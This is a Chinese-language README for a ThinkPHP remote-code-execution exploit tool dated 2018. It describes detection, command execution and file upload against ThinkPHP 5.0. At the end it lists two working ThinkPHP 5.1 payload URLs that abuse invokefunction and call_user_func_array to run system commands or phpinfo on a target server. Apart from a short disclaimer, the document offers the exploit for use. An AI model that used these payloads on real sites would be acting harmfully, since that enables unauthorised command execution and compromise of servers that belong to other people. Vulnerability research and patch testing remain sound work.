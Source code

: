 # thinkphp_exp-v5.0
thinkphp_exp-v5.0
2018.12.11

说明：

漏洞检测，5.0和5.1都可以检测。

命令执行，文件上传只支持5.0版本tp。5.1和5.0利用大同小异，不打算写。这只是个练手作品，也勉强可以用。



还是老样子，用bat打开，不然看不到日志输出。



url:需要加http，不支持https检测。

命令：命令就是系统命令，各位都懂。

文件名：上传到服务器的文件名。

好多回显没处理，勉强用吧

网站被我不小心重置系统，月底重开。

www.safe6.cn

免责声明：
safe出品的所有程序，仅限用于学习和研究目的；不得将上述内容用于商业或者非法用途，否则，一切后果请用户自负。

5.1 的exp



命令执行:
http://url/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令


代码执行:
http://url/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


